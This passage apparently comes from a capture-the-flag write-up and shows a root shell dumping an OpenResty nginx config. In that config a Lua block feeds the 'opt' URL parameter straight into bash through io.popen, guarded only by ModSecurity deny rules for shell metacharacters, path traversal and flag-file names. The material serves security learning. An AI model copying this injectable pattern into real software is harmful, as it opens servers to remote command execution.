		-- ngx.say("DEBUG: CMD='/home/themiddle/checksync "..opt.."'; bash -c $CMD 2>&1")

		local handle = io.popen("CMD='/home/themiddle/checksync "..opt.."'; bash -c ${CMD} 2>&1")
		local result = handle:read("*a")
		handle:close()
		ngx.say(result)
	    }

        }

        #error_page  404              /404.html;

        # redirect server error pages to the static page /50x.html
        #
        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }

        # proxy the PHP scripts to Apache listening on 127.0.0.1:80
        #
        #location ~ \.php$ {
        #    proxy_pass   http://127.0.0.1;
        #}

        # pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
        #
        #location ~ \.php$ {
        #    root           html;
        #    fastcgi_pass   127.0.0.1:9000;
        #    fastcgi_index  index.php;
        #    fastcgi_param  SCRIPT_FILENAME  /scripts$fastcgi_script_name;
        #    include        fastcgi_params;
        #}

        # deny access to .htaccess files, if Apache's document root
        # concurs with nginx's one
        #
        #location ~ /\.ht {
        #    deny  all;
        #}
    }


    # another virtual host using mix of IP-, name-, and port-based configuration
    #
    #server {
    #    listen       8000;
    #    listen       somename:8080;
    #    server_name  somename  alias  another.alias;

    #    location / {
    #        root   html;
    #        index  index.html index.htm;
    #    }
    #}


    # HTTPS server
    #
    #server {
    #    listen       443 ssl;
    #    server_name  localhost;

    #    ssl_certificate      cert.pem;
    #    ssl_certificate_key  cert.key;

    #    ssl_session_cache    shared:SSL:1m;
    #    ssl_session_timeout  5m;

    #    ssl_ciphers  HIGH:!aNULL:!MD5;
    #    ssl_prefer_server_ciphers  on;

    #    location / {
    #        root   html;
    #        index  index.html index.htm;
    #    }
    #}

}
root@fluxcapacitor:~#
```

```sh
root@fluxcapacitor:~# cat /usr/local/openresty/nginx/conf/nginx.conf | grep -v \# | grep .
worker_processes  2;
error_log /dev/null;
pid        logs/nginx.pid;
events {
    worker_connections  1024;
}
http {
    include       mime.types;
    default_type  application/octet-stream;
    access_log  /dev/null;
    sendfile        on;
    keepalive_timeout  65;
    server {
        listen       80;
        server_name  _;
	more_clear_headers 'Server';
	add_header Server 'SuperWAF';
	modsecurity on;
        location /sync {
	    default_type 'text/plain';
	    modsecurity_rules '
		SecDefaultAction "phase:1,log,auditlog,deny,status:403"
		SecDefaultAction "phase:2,log,auditlog,deny,status:403"
		SecRule REQUEST_HEADERS:User-Agent "^(Mozilla|Opera)" "id:1,phase:2,t:trim,block"
		SecRuleEngine On
		SecRule ARGS "@rx [;\(\)\|\`\<\>\&\$\*]" "id:2,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (user\.txt|root\.txt)" "id:3,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (\/.+\s+.*\/)" "id:4,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (\.\.)" "id:5,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (\?s)" "id:6,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS:opt "@pmFromFile /usr/local/openresty/nginx/conf/unixcmd.txt" "id:99,phase:2,t:trim,t:urlDecode,block"
	    ';
	    content_by_lua_block {
		local opt = 'date'
		if ngx.var.arg_opt then
			opt = ngx.var.arg_opt
		end
		-- ngx.say("DEBUG: CMD='/home/themiddle/checksync "..opt.."'; bash -c $CMD 2>&1")
		local handle = io.popen("CMD='/home/themiddle/checksync "..opt.."'; bash -c ${CMD} 2>&1")
		local result = handle:read("*a")
		handle:close()
		ngx.say(result)
	    }
        }
        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }
    }
}
root@fluxcapacitor:~#
```



